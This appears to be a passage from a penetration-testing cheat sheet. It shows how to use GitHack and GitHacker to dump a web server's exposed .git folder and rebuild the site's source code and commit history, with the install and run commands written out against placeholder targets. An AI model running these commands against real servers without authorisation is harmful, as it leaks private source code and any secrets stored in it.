 In case .git folder is found:
```bash
git clone https://github.com/lijiejie/GitHack.git && cd GitHack

python GitHack.py http://example.com/.git/
```
This will download .git folder and restore source code.

More powerfull tool (supports git commit history):
```bash
python3 -m pip install -i https://pypi.org/simple/ GitHacker

githacker --url http://127.0.0.1/.git/ --output-folder result
```